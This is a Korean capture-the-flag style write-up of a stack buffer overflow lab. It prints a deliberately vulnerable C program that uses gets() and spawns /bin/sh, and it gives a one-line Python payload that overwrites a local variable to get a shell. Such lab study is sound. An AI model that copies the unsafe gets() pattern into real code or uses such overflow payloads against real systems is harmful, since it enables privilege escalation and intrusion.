


# bo3 정리

## bof3.c
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(1003, 1003)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1003, 1003)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```

이 코드에서 취약점은 vuln 함수 안에 gets 함수이다. gets 함수는 길이 제한 없어, 입력한데로 스택에 저장한다.

## 공격 방법

Buffer Overflow 방법을 사용할 것이다.

위 코드를 볼 때 `innocent` 변수와 `KEY=0x61` 값을 비교해 같으면 `/bin/sh` 명령을 실행시킨다. 

우리는 `innocent` 변수에 원하는 값을 저장해 `/bin/sh` 명령을 실행하도록 할 것이다. 

지역 변수들은 stack 에 쌓이게 된다. 변수마다 할당된 크기가 있는데 그 크기를 넘어서 저장하게 되면 다른 변수에도 접근을 할 수 있게 된다. 그래서 `buf` 와 `innocent` 사이에 크기만큼 입력을 시켜준 다음 `innocent`에 원하는 값을 저장하게 하는 것이다.

## `innocent` 와 `buf` 사이 크기 구하기

각각을 담고 있는 주소값을 구한 뒤 차이를 구한다.


gets 함수에 breakpoint 를 걸어 rdi 레지스터에 저장된 값, 즉 문자열 끝을 가리키는 주소를 확인한다. 


```c
if (innocent  == KEY) {
    ...
}
```
if 문을 확인하는 곳으로 이동해 `innocent`가 저장되어 있는 주소값을 확인한다. `rbp-0x4`가 그 주소값이다.



두 주소값의 차이를 확인하면 140인 것을 알 수 있다.



그래서 다음과 같이 입력을 하면 `/bin/sh`이 실행된 것을 볼 수 있다.
``` shell
(python -c 'print "a"*140+"a\x00\x00\x00"'; cat ) | ./bof3
```

`buf`에 'a' 라는 쓰레기 값을 140개 입력함으로써 다 채우고 그 다음 `KEY`과 동일하게 `innocent`에 입력함으로 `innocent==KEY` 를 성립하게 한다. 그 뒤에 나오는 `cat`은 shell을 실행하고 난 뒤 프로그램이 끝나지 않게 하기 위함이다.

